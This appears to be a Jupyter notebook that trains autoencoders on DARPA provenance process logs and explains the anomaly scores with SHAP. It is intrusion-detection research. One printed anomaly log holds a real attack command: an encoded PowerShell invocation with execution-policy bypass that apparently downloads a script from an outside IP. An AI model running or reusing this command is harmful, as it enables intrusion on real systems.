In [5]:
import os
import pickle
import numpy as np
import pandas as pd
import torch
import torch.nn as nn
import shap
from sklearn.feature_extraction.text import TfidfVectorizer

DEVICE = 'cuda' if torch.cuda.is_available() else 'cpu'

# ==========================================
# 0. INITIALIZE STORAGE DICTIONARIES
# ==========================================
all_performers_shap_values = {}
all_performers_errors = {}
all_performers_test_texts = {}
all_performers_test_labels = {}

# ==========================================
# 1. LOAD DATA
# ==========================================
MASTER_DATA_FILE = "all_data_with_sentences.pkl" 
with open(MASTER_DATA_FILE, "rb") as f:
    master_text_data = pickle.load(f)

TARGET_CONTEXT = "ProcessAll"
PERFORMERS = ['5dir', 'cadets', 'clearscope', 'theia', 'trace']

# ==========================================
# 2. DEFINE ROBUST AUTOENCODER MODEL
# ==========================================
class RobustAE(nn.Module):
    def __init__(self, input_dim):
        super(RobustAE, self).__init__()
        self.encoder = nn.Sequential(
            nn.Linear(input_dim, 1024), nn.LeakyReLU(0.2), nn.Dropout(0.2),
            nn.Linear(1024, 256), nn.LeakyReLU(0.2)
        )
        self.decoder = nn.Sequential(
            nn.Linear(256, 1024), nn.LeakyReLU(0.2), nn.Dropout(0.2),
            nn.Linear(1024, input_dim)
        )
    def forward(self, x):
        return self.decoder(self.encoder(x))

# Wrapper Module for SHAP Anomaly Score
class AnomalyScoreWrapper(nn.Module):
    def __init__(self, model):
        super().__init__()
        self.model = model
    def forward(self, x):
        reconstruction = self.model(x)
        return torch.mean((x - reconstruction) ** 2, dim=1, keepdim=True)

# ==========================================
# 3. THE MASTER LOOP
# ==========================================
for performer in PERFORMERS:
    print("="*70)
    print(f"🚀 PROCESSING PERFORMER: {performer.upper()}")
    print("="*70)
    
    if performer not in master_text_data or TARGET_CONTEXT not in master_text_data[performer]:
        print(f"[!] Warning: Data not found for {performer}. Skipping.")
        continue

    df = master_text_data[performer][TARGET_CONTEXT]
    text_col = 'sentence' if 'sentence' in df.columns else 'text'
    label_col = 'label' if 'label' in df.columns else 'y'

    df = df.dropna(subset=[text_col]).reset_index(drop=True)

    # --- STRICT 80/20 SPLIT LOGIC ---
    normal_df = df[df[label_col] == 0]
    anomaly_df = df[df[label_col] == 1]
    train_size = int(0.8 * len(normal_df))

    train_texts = normal_df[text_col].tolist()[:train_size]
    test_texts = normal_df[text_col].tolist()[train_size:] + anomaly_df[text_col].tolist()
    test_labels = np.array([0] * (len(normal_df) - train_size) + [1] * len(anomaly_df))

    # --- TF-IDF VECTORIZATION ---
    vectorizer = TfidfVectorizer(max_features=None)
    vectorizer.fit(train_texts + test_texts)
    X_train_tfidf = vectorizer.transform(train_texts).toarray()
    X_test_tfidf  = vectorizer.transform(test_texts).toarray()

    # --- BUILD & TRAIN PYTORCH ROBUST AUTOENCODER ---
    input_dim = X_train_tfidf.shape[1]
    autoencoder = RobustAE(input_dim).to(DEVICE)
    optimizer = torch.optim.Adam(autoencoder.parameters(), lr=0.001)
    criterion = nn.L1Loss() # Using L1 for Robustness

    X_train_tensor = torch.FloatTensor(X_train_tfidf).to(DEVICE)

    print(f"1. Training Robust Autoencoder...")
    autoencoder.train()
    epochs = 50
    batch_size = 32

    for epoch in range(epochs):
        permutation = torch.randperm(X_train_tensor.size()[0])
        for i in range(0, X_train_tensor.size()[0], batch_size):
            indices = permutation[i:i+batch_size]
            batch_x = X_train_tensor[indices]
            
            optimizer.zero_grad()
            reconstruction = autoencoder(batch_x)
            loss = criterion(reconstruction, batch_x)
            loss.backward()
            optimizer.step()

    # --- FAST SHAP CALCULATION & ERROR EXTRACTION ---
    print(f"2. Calculating SHAP & Errors using DeepExplainer...")
    autoencoder.eval()
    error_model = AnomalyScoreWrapper(autoencoder).to(DEVICE)
    error_model.eval()

    bg_limit = min(100, len(X_train_tfidf))
    background_tensor = torch.FloatTensor(X_train_tfidf[:bg_limit]).to(DEVICE)
    test_tensor = torch.FloatTensor(X_test_tfidf).to(DEVICE)

    explainer = shap.DeepExplainer(error_model, background_tensor)
    shap_values_all = explainer.shap_values(test_tensor)

    with torch.no_grad():
        all_errors = error_model(test_tensor).cpu().numpy().flatten()

    # --- STORE RESULTS ---
    all_performers_shap_values[performer] = shap_values_all
    all_performers_errors[performer] = all_errors
    all_performers_test_texts[performer] = test_texts
    all_performers_test_labels[performer] = test_labels
    
    print(f"✅ Finished {performer.upper()}!\n")

print("\n🎉 ALL PROCESSING COMPLETE! Data safely stored for:")
print(list(all_performers_errors.keys()))

🚀 PROCESSING PERFORMER: 5DIR
1. Training Robust Autoencoder...
2. Calculating SHAP & Errors using DeepExplainer...

✅ Finished 5DIR!

🚀 PROCESSING PERFORMER: CADETS
1. Training Robust Autoencoder...
2. Calculating SHAP & Errors using DeepExplainer...
✅ Finished CADETS!

🚀 PROCESSING PERFORMER: CLEARSCOPE
1. Training Robust Autoencoder...
2. Calculating SHAP & Errors using DeepExplainer...
✅ Finished CLEARSCOPE!

🚀 PROCESSING PERFORMER: THEIA
1. Training Robust Autoencoder...
2. Calculating SHAP & Errors using DeepExplainer...
✅ Finished THEIA!

🚀 PROCESSING PERFORMER: TRACE
1. Training Robust Autoencoder...
2. Calculating SHAP & Errors using DeepExplainer...
✅ Finished TRACE!


🎉 ALL PROCESSING COMPLETE! Data safely stored for:
['5dir', 'cadets', 'clearscope', 'theia', 'trace']


In [6]:
# ==========================================
# CELL: VERIFY AND SUMMARIZE STORED DATA
# ==========================================

print("🗄️ SUMMARY OF ALL STORED DATA 🗄️\n")

# Loop through the keys (performers) in our dictionary
for performer in all_performers_errors.keys():
    
    # Extract the data for the current performer
    errors = all_performers_errors[performer]
    shap_vals = all_performers_shap_values[performer]
    texts = all_performers_test_texts[performer]
    labels = all_performers_test_labels[performer]
    
    # --- Print formatting with Headings ---
    print("=" * 60)
    print(f"🔹 PERFORMER: {performer.upper()}")
    print("=" * 60)
    
    # 1. Dataset Dimensions
    print(f"Total Test Logs:     {len(texts)}")
    print(f"Total Labels:        {len(labels)} (Normal: {sum(labels == 0)}, Anomaly: {sum(labels == 1)})")
    
    # 2. Reconstruction Errors (MSE) Summary
    print(f"\nReconstruction Errors Array Shape: {errors.shape}")
    print(f"  -> Mean Error: {np.mean(errors):.6f}")
    print(f"  -> Max Error:  {np.max(errors):.6f}")
    print(f"  -> Min Error:  {np.min(errors):.6f}")
    
    # 3. SHAP Values Summary
    # Note: DeepExplainer sometimes returns a list of arrays depending on the PyTorch version, 
    # so we handle both list and numpy array formats here.
    if isinstance(shap_vals, list):
        print(f"\nSHAP Values Shape: {shap_vals[0].shape} (List of arrays)")
    else:
        print(f"\nSHAP Values Shape: {shap_vals.shape}")
        
    print("\n") # Add a little space before the next performer

🗄️ SUMMARY OF ALL STORED DATA 🗄️

🔹 PERFORMER: 5DIR
Total Test Logs:     2238
Total Labels:        2238 (Normal: 2229, Anomaly: 9)

Reconstruction Errors Array Shape: (2238,)
  -> Mean Error: 0.000072
  -> Max Error:  0.001239
  -> Min Error:  0.000000

SHAP Values Shape: (2238, 776, 1)


🔹 PERFORMER: CADETS
Total Test Logs:     44934
Total Labels:        44934 (Normal: 44923, Anomaly: 11)

Reconstruction Errors Array Shape: (44934,)
  -> Mean Error: 0.000121
  -> Max Error:  0.003412
  -> Min Error:  0.000000

SHAP Values Shape: (44934, 278, 1)


🔹 PERFORMER: CLEARSCOPE
Total Test Logs:     2432
Total Labels:        2432 (Normal: 2419, Anomaly: 13)

Reconstruction Errors Array Shape: (2432,)
  -> Mean Error: 0.000065
  -> Max Error:  0.002473
  -> Min Error:  0.000000

SHAP Values Shape: (2432, 292, 1)


🔹 PERFORMER: THEIA
Total Test Logs:     55954
Total Labels:        55954 (Normal: 55854, Anomaly: 100)

Reconstruction Errors Array Shape: (55954,)
  -> Mean Error: 0.000045
  -> Max 

In [7]:
shap_values_all.shape

(56458, 421, 1)

In [13]:
# ==========================================
# CELL 5: Select Specific or Top Anomalies per Performer
# ==========================================
import numpy as np

print("🚨 SELECTING ONE TRUE ANOMALY PER PERFORMER 🚨\n")

selected_anomaly_indices = {}

# --- MANUAL OVERRIDES ---
# Type the exact index you want for a performer here.
# If you leave the value as None, the script will automatically pick the TOP anomaly for that dataset.
manual_overrides = {
    '5dir': None,       # Example: Hardcoded target
    'cadets': None,      # Replace None with a number if you want a specific index
    'clearscope': None,   # Example: Hardcoded target
    'theia': None,
    'trace': None
}

for performer in all_performers_errors.keys():
    
    errors = all_performers_errors[performer]
    texts = all_performers_test_texts[performer]
    labels = all_performers_test_labels[performer]
    
    # 1. Isolate actual anomalies (label == 1)
    anomaly_indices = np.where(labels == 1)[0]
    
    if len(anomaly_indices) == 0:
        print(f"[!] No ground-truth anomalies found for {performer.upper()}.")
        continue
        
    # 2. Check for manual override or pick the TOP anomaly
    # We check if the performer is in the dict AND the value is not None
    if performer in manual_overrides and manual_overrides[performer] is not None:
        chosen_idx = manual_overrides[performer]
        selection_type = "(MANUAL OVERRIDE)"
        
        # Safety check: Ensure the manual index isn't out of bounds
        if chosen_idx >= len(labels):
            print(f"[!] Error: Index {chosen_idx} is out of bounds for {performer.upper()}. Max index is {len(labels)-1}.")
            continue
            
        # Safety check: Warn you if the index you picked is actually benign
        if labels[chosen_idx] != 1:
            print(f"[!] WARNING: You forced index {chosen_idx} for {performer.upper()}, but its ground truth label is {labels[chosen_idx]} (NOT an anomaly!).")
            
    else:
        # Fallback: Pick the anomaly with the HIGHEST reconstruction error
        anomaly_errors = errors[anomaly_indices]
        relative_top_idx = np.argmax(anomaly_errors)
        chosen_idx = anomaly_indices[relative_top_idx]
        selection_type = "(TOP ANOMALY)"
    
    # 3. Save it to our dictionary for Cell 6 & 10
    selected_anomaly_indices[performer] = chosen_idx
    
    print("=" * 80)
    print(f"🔹 PERFORMER: {performer.upper()}")
    print("=" * 80)
    print(f" -> Chosen Test Index:   {chosen_idx} {selection_type}")
    print(f" -> Ground Truth Label:  {labels[chosen_idx]} (1 = Anomaly)")
    print(f" -> Reconstruction Loss: {errors[chosen_idx]:.6f}")
    print(f" -> Raw Log:             {texts[chosen_idx]}\n")

🚨 SELECTING ONE TRUE ANOMALY PER PERFORMER 🚨

🔹 PERFORMER: 5DIR
 -> Chosen Test Index:   2237 (TOP ANOMALY)
 -> Ground Truth Label:  1 (1 = Anomaly)
 -> Reconstruction Loss: 0.000892
 -> Raw Log:             Process has event bind and event check_file_attributes and event close and event connect and event create_object and event create_thread and event execute and event exit and event fcntl and event fork and executable \windows\system32\cmd.exe.1 and network 0 and network 208.75.117.5 and network 208.75.117.6 and network 80 and attribute powershell  -nop -ep bypass -encodedcommand kaboaguadwatae8aygbqaguaywb0acaatgblahqalgbxaguaygbdagwaaqblag4adaapac4azabvahcabgbsag8ayqbkagyaaqbsaguakaanaggadab0ahaaogavac8amgawadgalga3adualgaxadeanwauadualwb1ahaazabhahqazqauahaacwaxaccalaagaccaqwa6afwacabyag8azwbyageabqbkageadabhafwadqbwagqayqb0agualgbwahmamqanackaowagac4aiabdadoaxabcahaacgbvagcacgbhag0azabhahqayqbcafwadqbwagqayqb0agualgbwahmamqa7acaacabvahcazqbyagmayqb0acaalqbjacaamgawadgalga3adualga

In [17]:
# ==========================================
# CELL 5B: Select Specific or Top NORMAL Logs per Performer
# ==========================================
import numpy as np

print("🟢 SELECTING ONE TRUE NORMAL LOG PER PERFORMER 🟢\n")

# Store these in a new dictionary so it doesn't overwrite your anomaly indices
selected_normal_indices = {}

# --- MANUAL OVERRIDES ---
# Type the exact index you want for a normal log here.
# If you leave it as None, it will pick the log with the LOWEST reconstruction error.
manual_overrides_normal = {
    '5dir': None,
    'cadets': None,
    'clearscope': None,
    'theia': None,
    'trace': None
}

for performer in all_performers_errors.keys():
    
    errors = all_performers_errors[performer]
    texts = all_performers_test_texts[performer]
    labels = all_performers_test_labels[performer]
    
    # 1. Isolate actual NORMAL logs (label == 0)
    normal_indices = np.where(labels == 0)[0]
    
    if len(normal_indices) == 0:
        print(f"[!] No ground-truth normal logs found for {performer.upper()}.")
        continue
        
    # 2. Check for manual override or pick the MOST NORMAL log
    if performer in manual_overrides_normal and manual_overrides_normal[performer] is not None:
        chosen_idx = manual_overrides_normal[performer]
        selection_type = "(MANUAL OVERRIDE)"
        
        # Safety check: Ensure the manual index isn't out of bounds
        if chosen_idx >= len(labels):
            print(f"[!] Error: Index {chosen_idx} is out of bounds for {performer.upper()}. Max index is {len(labels)-1}.")
            continue
            
        # Safety check: Warn you if the index you picked is actually an anomaly
        if labels[chosen_idx] != 0:
            print(f"[!] WARNING: You forced index {chosen_idx} for {performer.upper()}, but its ground truth label is {labels[chosen_idx]} (NOT normal!).")
            
    else:
        # Fallback: Pick the normal log with the LOWEST reconstruction error
        normal_errors = errors[normal_indices]
        relative_lowest_idx = np.argmin(normal_errors)
        chosen_idx = normal_indices[relative_lowest_idx]
        selection_type = "(MOST NORMAL - LOWEST ERROR)"
    
    # 3. Save it to our dictionary 
    selected_normal_indices[performer] = chosen_idx
    
    print("=" * 80)
    print(f"🔹 PERFORMER: {performer.upper()}")
    print("=" * 80)
    print(f" -> Chosen Test Index:   {chosen_idx} {selection_type}")
    print(f" -> Ground Truth Label:  {labels[chosen_idx]} (0 = Normal)")
    print(f" -> Reconstruction Loss: {errors[chosen_idx]:.6f}")
    print(f" -> Raw Log:             {texts[chosen_idx]}\n")

🟢 SELECTING ONE TRUE NORMAL LOG PER PERFORMER 🟢

🔹 PERFORMER: 5DIR
 -> Chosen Test Index:   1 (MOST NORMAL - LOWEST ERROR)
 -> Ground Truth Label:  0 (0 = Normal)
 -> Reconstruction Loss: 0.000000
 -> Raw Log:             Process has event check_file_attributes and event close and event create_object and event create_thread and event execute and event exit and event fork and event loadlibrary and event modify_file_attributes and event open and executable \windows\system32\svchost.exe -k netsvcs -p -s gpsvc and executable \windows\system32\services.exe.1

🔹 PERFORMER: CADETS
 -> Chosen Test Index:   4 (MOST NORMAL - LOWEST ERROR)
 -> Ground Truth Label:  0 (0 = Normal)
 -> Reconstruction Loss: 0.000000
 -> Raw Log:             Process has event close and event execute and event exit and event fork and event mmap and event open and event read and executable bash and executable bash.1 and attribute sleep

🔹 PERFORMER: CLEARSCOPE
 -> Chosen Test Index:   7 (MOST NORMAL - LOWEST ERROR)
 -> 

In [3]:
# ==========================================
# CELL: EXPORT ENTIRE DATASET TO CONSOLIDATED CSV (STANDALONE)
# ==========================================
import pandas as pd
import pickle

print("📦 Loading dataset into memory...")

# 1. LOAD DATA & DEFINE VARIABLES
# Replace with your actual file name
MASTER_DATA_FILE = "all_data_with_sentences.pkl" 
with open(MASTER_DATA_FILE, "rb") as f:
    master_text_data = pickle.load(f)

TARGET_CONTEXT = "ProcessAll"
PERFORMERS = ['5dir', 'cadets', 'clearscope', 'theia', 'trace']

print("🚀 Structuring the consolidated dataset...")

all_logs_list = []

# 2. LOOP THROUGH AND EXTRACT
for performer in PERFORMERS:
    # Check if performer exists in your loaded data
    if performer in master_text_data and TARGET_CONTEXT in master_text_data[performer]:
        df = master_text_data[performer][TARGET_CONTEXT]
        
        # Identify the correct column names for this specific performer
        text_col = 'sentence' if 'sentence' in df.columns else 'text'
        label_col = 'label' if 'label' in df.columns else 'y'
        
        # Clean out any empty rows to ensure a pristine dataset
        df = df.dropna(subset=[text_col]).copy()
        
        # Extract only the requested columns and rename them to the standard format
        temp_df = pd.DataFrame({
            'logs': df[text_col],
            'label': df[label_col],
            'performer': performer.upper() # e.g., '5DIR', 'CADETS'
        })
        
        all_logs_list.append(temp_df)
        print(f" -> Processed {len(temp_df)} logs from {performer.upper()}")
    else:
        print(f"[!] Warning: Could not find data for {performer.upper()}")

# 3. CONSOLIDATE AND SAVE
consolidated_df = pd.concat(all_logs_list, ignore_index=True)

# Save the consolidated DataFrame to a CSV file in your local directory
output_filename = "consolidated_darpa_logs.csv"
consolidated_df.to_csv(output_filename, index=False)

print("=" * 60)
print(f"✅ SUCCESS! Consolidated dataset saved as '{output_filename}'")
print(f"📊 Total Rows: {len(consolidated_df)}")
print(f"📈 Overall Class Breakdown:\n{consolidated_df['label'].value_counts()}")
print("=" * 60)

📦 Loading dataset into memory...
🚀 Structuring the consolidated dataset...
 -> Processed 11151 logs from 5DIR
 -> Processed 224624 logs from CADETS
 -> Processed 12106 logs from CLEARSCOPE
 -> Processed 279369 logs from THEIA
 -> Processed 282103 logs from TRACE
✅ SUCCESS! Consolidated dataset saved as 'consolidated_darpa_logs.csv'
📊 Total Rows: 809353
📈 Overall Class Breakdown:
label
0    809174
1       179
Name: count, dtype: int64


=== GENERATING SHAP TABLES & PLOTS FOR SELECTED ANOMALIES ===

██████████████████████████████████████████████████████████████████████
🔍 ANALYZING TOP ANOMALY FOR: 5DIR (Test Index: 2237)
██████████████████████████████████████████████████████████████████████

Top SHAP Drivers for Test Index 2237:
 Token (Feature Name) SHAP Value (Impact)
              network           +0.000003
               bypass           +0.000001
            attribute           +0.000001
                   ep           +0.000001
                  nop           +0.000001
       encodedcommand           +0.000001
                   80           +0.000001
                event           +0.000000
                   75           +0.000000
                  net           +0.000000
            microsoft           +0.000000
                   v4           +0.000000
                30319           +0.000000
                   64           +0.000000
check_file_attributes           +0.000000
-------------------------------




██████████████████████████████████████████████████████████████████████
🔍 ANALYZING TOP ANOMALY FOR: CADETS (Test Index: 44926)
██████████████████████████████████████████████████████████████████████

Top SHAP Drivers for Test Index 44926:
Token (Feature Name) SHAP Value (Impact)
                test           +0.000015
                 and           +0.000013
               event           +0.000006
               uname           +0.000006
                 207           +0.000001
               inetd           +0.000001
             process           +0.000001
                 has           +0.000001
               login           +0.000000
                  55           +0.000000
                  10           +0.000000
                  53           +0.000000
                 128           +0.000000
              master           +0.000000
                  12           +0.000000
----------------------------------------------------------------------
 -> ✅ Plot successfully saved as '




██████████████████████████████████████████████████████████████████████
🔍 ANALYZING TOP ANOMALY FOR: CLEARSCOPE (Test Index: 2423)
██████████████████████████████████████████████████████████████████████

Top SHAP Drivers for Test Index 2423:
Token (Feature Name) SHAP Value (Impact)
                 118           +0.000002
                  70           +0.000002
                  53           +0.000002
               write           +0.000001
                 157           +0.000001
             execute           +0.000001
       create_object           +0.000001
                 207           +0.000000
             connect           +0.000000
                 138           +0.000000
             android           +0.000000
                 206           +0.000000
                bind           +0.000000
                1900           +0.000000
           launcher3           +0.000000
----------------------------------------------------------------------
 -> ✅ Plot successfully saved as




██████████████████████████████████████████████████████████████████████
🔍 ANALYZING TOP ANOMALY FOR: THEIA (Test Index: 55944)
██████████████████████████████████████████████████████████████████████

Top SHAP Drivers for Test Index 55944:
Token (Feature Name) SHAP Value (Impact)
                  80           +0.000013
             network           +0.000009
          executable           +0.000006
             fluxbox           +0.000005
               clone           +0.000005
             firefox           +0.000003
            mprotect           +0.000003
             execute           +0.000002
                bash           +0.000002
                mmap           +0.000002
                open           +0.000002
                  na           +0.000002
                read           +0.000001
                 usr           +0.000001
                 apt           +0.000001
----------------------------------------------------------------------
 -> ✅ Plot successfully saved as 't




██████████████████████████████████████████████████████████████████████
🔍 ANALYZING TOP ANOMALY FOR: TRACE (Test Index: 56413)
██████████████████████████████████████████████████████████████████████

Top SHAP Drivers for Test Index 56413:
Token (Feature Name) SHAP Value (Impact)
             network           +0.000010
               event           +0.000005
              tcexec           +0.000002
                pine           +0.000001
             process           +0.000001
                 has           +0.000001
                fork           +0.000001
                 and           +0.000001
          attributes           +0.000000
                 443           +0.000000
                1005           +0.000000
             connect           +0.000000
                1000           +0.000000
                dist           +0.000000
                 100           +0.000000
----------------------------------------------------------------------
 -> ✅ Plot successfully saved as 't

